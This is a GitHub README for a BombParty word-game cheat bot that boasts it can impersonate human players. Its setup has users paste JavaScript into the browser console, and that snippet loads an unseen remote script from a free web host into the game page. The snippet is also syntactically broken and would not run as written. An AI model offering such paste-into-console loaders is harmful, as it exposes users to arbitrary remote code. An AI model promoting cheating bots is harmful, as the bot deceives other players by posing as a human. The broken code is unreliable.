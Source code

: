 ﻿Sparklin Exploder
=================
A SparklinLabs's BombParty bot.
But not only, Sparklin Exploder is the best BombParty bot because he knows how to impersonate humans !

Join the dark side now :smiling_imp:

How to use it
-------------
1. Join a party on [BombParty Website](http://bombparty.sparklinlabs.com/).
2. Right-click on the game canvas and select "Inspect the element".

  ![Step 2](https://monosnap.com/file/8w6eJGVjAem03XmtuvDysvaoNM7lqU.png)
  
3. Go to the "Console" tab.

  ![Step 3](https://monosnap.com/file/75vTU31XNI2EGIemfByS5Ve5oG7jg3.png)
  
4. Paste the following code in the console and press "Enter".
  ```javascript
var exploder = var wordScript = document.createElement("script");
wordScript.src = 'https://bestial-impedance.000webhostapp.com/dico.js';
document.head.appendChild(wordScript);
```
  ![Step 4](https://monosnap.com/file/UTGNLwe9RWPCStwCwJoKoG3ybNGV7L.png)
  
5. Now in the "Option" tab of the game, you have 2 buttons:
  - **Inject:** Inject 1 word that corresponds to the given letters.
  - **Auto:** Automaticly inject words when the arrow is pointing you.

  ![Step 5](https://monosnap.com/file/y93lIKvygJrXvpNLMaNwARSXpXIxX6.png)

